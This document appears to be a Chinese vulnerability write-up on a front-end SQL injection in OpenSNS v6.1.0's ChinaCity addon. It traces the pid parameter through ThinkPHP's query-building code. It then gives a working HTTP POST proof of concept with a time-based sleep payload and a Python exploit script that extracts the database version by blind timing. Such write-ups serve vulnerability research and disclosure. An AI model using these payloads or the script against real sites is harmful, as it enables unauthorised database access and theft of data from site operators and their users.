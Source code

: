 OpenSNS v6.1.0 前台sql注入
==========================

一、漏洞简介
------------

二、漏洞影响
------------

OpenSNS v6.1.0

三、复现过程
------------

### 漏洞分析

Addons/ChinaCity/Controller/ChinaCityController.class.php:50
发现我们输入的payload，向前查找，最开始从\$\_POST获取，如何处理，到此处

![](resource/OpenSNSv6.1.0前台sql注入/media/rId25.jpg)

ThinkPHP/Common/functions.php:343 跟进I函数获取到payload

![](resource/OpenSNSv6.1.0前台sql注入/media/rId26.jpg)

继续跟发现有参数过滤，可仔细一看跟没过滤一样

![](resource/OpenSNSv6.1.0前台sql注入/media/rId27.jpg)

![](resource/OpenSNSv6.1.0前台sql注入/media/rId28.jpg)

到这里向前追溯就结束了，从`$pid = I('pid');` 向后跟

跟进 \\Addons\\ChinaCity\\Model\\DistrictModel::\_list
`$list = D('Addons://ChinaCity/District')->_list($map);`跟进
Addons/ChinaCity/Model/DistrictModel.class.php:12

![](resource/OpenSNSv6.1.0前台sql注入/media/rId29.jpg)

![](resource/OpenSNSv6.1.0前台sql注入/media/rId30.jpg)

ThinkPHP/Library/Think/Model.class.php:618
`$resultSet = $this->db->select($options);`ThinkPHP/Library/Think/Db.class.php:772

![](resource/OpenSNSv6.1.0前台sql注入/media/rId31.jpg)

Db.class.php:799, Think\\Db-\>buildSelectSql() 下的 `$this->parseSQl`
ThinkPHP/Library/Think/Db.class.php:799

![](resource/OpenSNSv6.1.0前台sql注入/media/rId32.jpg)

ThinkPHP/Library/Think/Db.class.php:804
发现执行了2个其他的sql语句，在此处（`buildSelectSql 里->return $sql`）下断点可以看到sql语句

![](resource/OpenSNSv6.1.0前台sql注入/media/rId33.jpg)

ThinkPHP/Library/Think/Db.class.php:813

![](resource/OpenSNSv6.1.0前台sql注入/media/rId34.jpg)

ThinkPHP/Library/Think/Db.class.php:821
`$this->parseWhere(!empty($options['where'])?$options['where']:''),`

ThinkPHP/Library/Think/Db.class.php:423

![](resource/OpenSNSv6.1.0前台sql注入/media/rId35.jpg)

跟到

![](resource/OpenSNSv6.1.0前台sql注入/media/rId36.jpg)

ThinkPHP/Library/Think/Db.class.php:457

![](resource/OpenSNSv6.1.0前台sql注入/media/rId37.jpg)

ThinkPHP/Library/Think/Db.class.php:468

![](resource/OpenSNSv6.1.0前台sql注入/media/rId38.jpg)

ThinkPHP/Library/Think/Db.class.php:457

![](resource/OpenSNSv6.1.0前台sql注入/media/rId39.jpg)

ThinkPHP/Library/Think/Db.class.php:497

![](resource/OpenSNSv6.1.0前台sql注入/media/rId40.jpg)

虽然这个地方有转译，但只有\$val\[1\]

![](resource/OpenSNSv6.1.0前台sql注入/media/rId41.jpg)

ThinkPHP/Library/Think/Db.class.php:464

![](resource/OpenSNSv6.1.0前台sql注入/media/rId42.jpg)

ThinkPHP/Library/Think/Db.class.php:813

![](resource/OpenSNSv6.1.0前台sql注入/media/rId43.jpg)

ThinkPHP/Library/Think/Db.class.php:773
`$result = $this->query($sql,$this->parseBind(!empty($options['bind'])?$options['bind']:array()));`

执行成功 sleep了

    Db.class.php:469, Think\Db->parseWhereItem()
    Db.class.php:457, Think\Db->parseWhere()
    Db.class.php:821, Think\Db->parseSql()
    Db.class.php:799, Think\Db->buildSelectSql()
    Db.class.php:772, Think\Db->select()
    Model.class.php:618, Think\Model->select()
    DistrictModel.class.php:12, Addons\ChinaCity\Model\DistrictModel->_list()
    ChinaCityController.class.php:58, Addons\ChinaCity\Controller\ChinaCityController->getCity()
    AddonsController.class.php:42, Home\Controller\AddonsController->execute()
    App.class.php:153, ReflectionMethod->invokeArgs()
    App.class.php:153, Think\App::exec()
    App.class.php:193, Think\App::run()
    Think.class.php:121, Think\Think::start()
    ThinkPHP.php:96, require()
    index.php:73, {main}()

### 漏洞复现

#### vul url

> [http://0-sec.org/uploads\_download\_2019-07-16\_5d2d5d4697d88/index.php?s=/home/addons/\_addons/china\_city/\_controller/china\_city/\_action/getcity.html](https://www.t00ls.net/)

#### poc

    POST /index.php?s=%2Fhome%2Faddons%2F_addons%2Fchina_city%2F_controller%2Fchina_city%2F_action%2Fgetcity.html HTTP/1.1
    Host: 0-sec.org
    User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
    Content-Length: 116
    Accept: */*
    Cookie: 
    Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,und;q=0.7
    Content-Type: application/x-www-form-urlencoded; charset=UTF-8
    Origin: http://192.168.95.131
    Referer: http://192.168.95.131/uploads_download_2019-07-16_5d2d5d4697d88/index.php?s=/ucenter/config/index.html
    X-Requested-With: XMLHttpRequest
    Accept-Encoding: gzip

    cid=0&pid%5B0%5D=%3D%28select%2Afrom%28select%2Bsleep%283%29union%2F%2A%2A%2Fselect%2B1%29a%29and+3+in+&pid%5B1%5D=3

![](resource/OpenSNSv6.1.0前台sql注入/media/rId48.jpg)

![](resource/OpenSNSv6.1.0前台sql注入/media/rId49.jpg)

Vulnerability file

Addons/ChinaCity/Controller/ChinaCityController.class.php:50

![](resource/OpenSNSv6.1.0前台sql注入/media/rId50.jpg)

ThinkPHP/Library/Think/Db.class.php:772

![](resource/OpenSNSv6.1.0前台sql注入/media/rId51.jpg)

![](resource/OpenSNSv6.1.0前台sql注入/media/rId52.jpg)

#### exp

    import requests
    from requests import exceptions

    url="http://192.168.95.131/uploads_download_2019-07-16_5d2d5d4697d88/index.php?s=/home/addons/_addons/china_city/_controller/china_city/_action/getcity.html"


    header={'X-Requested-With':'XMLHttpRequest'}
    # proxies={'http':'127.0.0.1:8080'}
    flag=''
    for i in range(1,50):
        for j in range(32,128):
            try:
                data={
                    'cid':0,
                    'pid[0]':"=(select if(ord(substr((select version()),{},1))={},sleep(10),0))AND 3 IN  ".format(i,j),
                    'pid[1]':3
                }
                # print data['pid[0]']
                r=requests.post(url,data=data,headers=header,timeout=5)

            except exceptions.Timeout :
                flag+=chr(j)
                print flag

![](resource/OpenSNSv6.1.0前台sql注入/media/rId54.jpg)

参考链接
--------

> <https://www.t00ls.net/thread-54688-1-1.html>
